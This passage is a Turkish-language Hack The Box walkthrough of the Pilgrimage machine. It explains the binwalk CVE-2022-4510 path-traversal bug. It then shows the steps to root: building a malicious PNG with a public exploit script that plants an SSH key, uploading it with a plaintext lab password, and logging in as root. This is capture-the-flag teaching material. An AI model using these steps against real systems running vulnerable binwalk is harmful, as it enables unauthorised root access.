 Bu sürüm v2.3.2.

“binwalk CVE” araması CVE-2022-4510'a bir sürü referans döndürür:

![Pasted image 20250107032730.png](/img/user/Pasted%20image%2020250107032730.png)

Bu sürüm savunmasız olmalıdır.

#### Details

[OneKey'den bu yazı](https://onekey.com/blog/security-advisory-remote-command-execution-in-binwalk/), araştırmacılarının bu sorunu nasıl bulduğunu açıklıyor. **binwalk** aslında bir **Python script**'idir ve yolları oluşturmak için **os.path.join** kullanır. Sorun, birleştirilen öğelerden birinde **../** bulunursa, bunların çözülmemesidir.

Bir **PFS** dosya sistemindeki dosyalar, dosya adlarında **../** içerebilir.

Bu nedenle, kod bir **os.path.join** işlemi yapar ve ardından ortaya çıkan yolun belirlenen dizinle başladığından emin olmak için kontrol eder, ancak **../** çözülmediği için bu kontrol hiçbir zaman tetiklenmez ve bu da atlatılır.

Bu durum, **binwalk** süreci olarak **arbitrary write** (istediğiniz dosyaya yazma) sağlar. Bu, bir **authorized_keys** dosyasını veya **crontab** dosyasını üzerine yazmak suretiyle istismar edilebilir. Yazının yazarında, **binwalk** taraması sırasında gerçekten çalışacak şekilde alınan ve yürütülen bir **binwalk plugin**'i yazma yöntemi gösterilmektedir.



#### Exploit

Bu [repoda](https://github.com/adhikara13/CVE-2022-4510-WalkingPath) plugin oluşturma yöntemini kötüye kullanan çalışan bir Python exploit'i var. Ssh yöntemini deneyeceğim, bir template dosyası ve bir public key vereceğim:

```
oxdf@hacky$ python walkingpath.py ssh root.png ~/keys/ed25519_gen.pub 
```

Çıktı, **binwalk_exploit.png** adlı bir dosya. Bunu **shrunk** dizinine yükleyeceğim:

```
oxdf@hacky$ sshpass -p abigchonkyboi123 scp binwalk_exploit.png emily@pilgrimage.htb:/var/www/pilgrimage.htb/shrunk/
```

Oradan, root olarak SSH ile giriş yapabiliyorum:

```
oxdf@hacky$ ssh -i ~/keys/ed25519_gen root@pilgrimage.htb 
Linux pilgrimage 5.10.0-23-amd64 #1 SMP Debian 5.10.179-1 (2023-05-12) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
root@pilgrimage:~# 
```

And get the root flag:

```
root@pilgrimage:~# cat root.txt
6108bf44************************
```

Medium yazısı : https://medium.com/@babayaga00897/pilgrimage-htb-writeup-ae8242270434


